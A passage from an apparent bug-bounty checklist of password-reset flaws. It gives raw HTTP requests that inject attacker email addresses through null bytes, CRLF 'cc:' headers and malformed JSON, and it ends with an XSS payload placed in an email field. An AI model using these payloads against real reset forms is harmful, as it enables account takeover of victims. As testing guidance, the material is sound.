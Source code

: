 ```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com%00hacker@mail.com
```

5. No domain in value of the paramter
```
POST /reset HTTP/1.1
Host: target.com
...

email=victim
```

6. No TLD in value of the parameter
```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail
```

7. Using carbon copy
```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com%0a%0dcc:hacker@mail.com
```

8. If there is JSON data in body requests, add comma
```
POST /newaccount HTTP/1.1
Host: target.com
...

{"email":"victim@mail.com","hacker@mail.com","token":"xxxxxxxxxx"}
```

9. Find out how the tokens generate
- Generated based on TimeStamp
- Generated based on the ID of the user
- Generated based on the email of the user
- Generated based on the name of the user

10. Try Cross-Site Scripting (XSS) in the form

Sometimes the email is reflected in the forgot password page, try to use XSS payload
```
"<svg/onload=alert(1)>"@gmail.com
```
## References
* [anugrahsr](https://anugrahsr.github.io/posts/10-Password-reset-flaws/)
* [Frooti](https://twitter.com/HackerGautam/status/1502264873287569414)

---